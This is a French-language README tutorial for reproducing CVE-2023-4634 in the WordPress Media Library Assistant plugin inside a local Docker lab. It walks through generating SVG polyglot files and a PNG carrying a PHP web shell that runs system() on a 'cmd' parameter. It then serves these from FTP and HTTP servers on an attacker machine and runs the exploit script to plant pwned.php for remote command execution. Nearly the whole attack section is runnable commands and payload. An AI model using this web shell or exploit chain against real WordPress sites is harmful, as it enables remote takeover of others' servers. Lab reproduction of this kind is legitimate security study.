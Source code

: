 # ProjetCL

# Tuto CVE-2023-4634

## Cloner le dépôt Git

Pour commencer, clonez le dépôt Git à l'aide de la commande suivante :

```bash
git clone https://github.com/lehazare/ProjetCL.git
```

## Construction et exécution du conteneur WordPress

Pour exécuter le conteneur WordPress, utilisez la commande suivante :

```bash
docker-compose up --force-recreate
```

> Note : Pour simplifier, vous pouvez utiliser `docker-compose up` sans l'option `--force-recreate`. L'option `--force-recreate` est ajoutée ici pour assurer que l'image du conteneur WordPress soit reconstruite si nécessaire.

## Installation du plugin MLA en version compromise (ex : 3.07) sur WordPress

Consultez la vidéo pour des instructions détaillées sur l'installation du plugin MLA.

## Tester avec Nuclei

Cette étape est optionnelle mais vous permet de vous assurer que l'image WordPress est correctement configurée et que le plugin MLA est installé dans une version compromise.

1. Installez Nuclei en utilisant la commande appropriée pour votre système (`brew install nuclei`, `sudo apt install nuclei`, etc.).
2. Utilisez la commande suivante pour tester avec Nuclei :

```bash
nuclei -u http://0.0.0.0:8080 -t ./CVE-2023-4634.yaml
```

> Note : Modifiez `0.0.0.0:8080` en fonction de l'emplacement où votre conteneur WordPress est en cours d'exécution.

## Début de l'attaque

### Objectif

L'objectif est d'accéder à l'URL suivante :

```
http://localhost:8080/pwned.php?cmd=ls
```

### Installation des modules Python nécessaires

Installez les modules Python nécessaires en utilisant la commande suivante :

```bash
python3 -m pip install -r requirements.txt
```

### Pour tester

Pour effectuer un test, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py -h
```

### Trouver l'adresse de sa machine

Utilisez la commande suivante pour obtenir l'adresse IP de votre machine :

```bash
ifconfig
```

Vous pouvez tester la connectivité en utilisant la commande `ping`.

### FTP

Génération des fichiers SVG :

```bash
python3 CVE-2023-4634.py --generatesvg --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --remotehttp http://192.168.1.103:8081 --png_polyglot_name virus.png --webserverpath /var/www/html --exploitname pwned.php
```

Créez un serveur FTP avec les fichiers SVG en exécutant la commande suivante dans le répertoire `remote_ftp` :

```bash
cd remote_ftp && python3 -m pyftpdlib -p 2122
```

### HTTP

Génération de l'image virus :

```bash
python3 CVE-2023-4634.py --generatepng --payload "<?php if(isset(\$_REQUEST['cmd'])){ echo \"<pre>\"; \$cmd = (\$_REQUEST['cmd']); system(\$cmd); echo \"</pre>\"; die; }?>" --png_polyglot_name virus.png
```

Créez un serveur HTTP avec l'image virus en exécutant la commande suivante dans le répertoire `exploit-png` :

```bash
cd exploit-png && python3 -m http.server 8081
```

### Exploitation

Pour l'exploitation, utilisez la commande suivante :

```bash
python3 CVE-2023-4634.py --target http://localhost:8080 --remoteftp ftp://192.168.1.103:2122 --remotehttp http://192.168.1.103:8081 --svg_polyglot_name poly.svg --svg_exploiter_names exploiter_FUZZ.svg --png_polyglot_name virus.png --exploitname pwned.php
```

Vous pouvez tester l'exploit en ajoutant une commande à l'URL, par exemple :

```
http://localhost:8080/pwned.php?cmd=ls
```

Consultez la vidéo pour plus de détails.
```
